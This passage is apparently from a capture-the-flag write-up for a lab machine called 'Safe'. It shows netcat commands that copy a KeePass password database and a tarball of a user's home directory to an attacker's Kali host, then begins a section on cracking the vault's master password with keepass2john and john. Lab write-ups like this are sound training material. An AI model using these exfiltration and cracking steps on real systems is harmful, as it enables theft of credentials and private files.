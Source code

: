 Use chmod to make it executable
```
chmod +x /var/tmp/boo/nc
```

use nc to transfer the files:

`on Kali`
```
nc -nlvp 8888 > MyPasswords.kdbx
```

Then `on Safe` from /home/user
```
/var/tmp/boo/nc 10.10.14.24 8888 < MyPasswords.kdbx
```

repeat this process with the JPG files.

After the second .jpg file I realised there was an easier way.

I copied the contents of the /home/user directory to /var/tmp/boo

```
cp * /var/tmp/boo/
```

then changed to /var/tmp and used tar to compress the directory and send the resulting tarball.

```
cd /var/tmp
tar -czvf boo.tar.gz boo
mv boo.tar.gz boo/
cd boo
./nc 10.10.14.24 8888 < boo.tar.gz
```

on kali
```
nc -nlvp 8888 > boo.tar.gz
```

then decompress it.
```
tar -xvzf boo.tar.gz
```

better!




<hr width="250" size="6">



<h3>keepass2john + john</h3>


Keepass is a password manager, MyPasswords.kdbx is the database file containing the info we want, 
and one of these .JPG files contain the master password to access the file.

We need to use `keepass2john` to reformat the files in a way `john` can handle to crack the password.
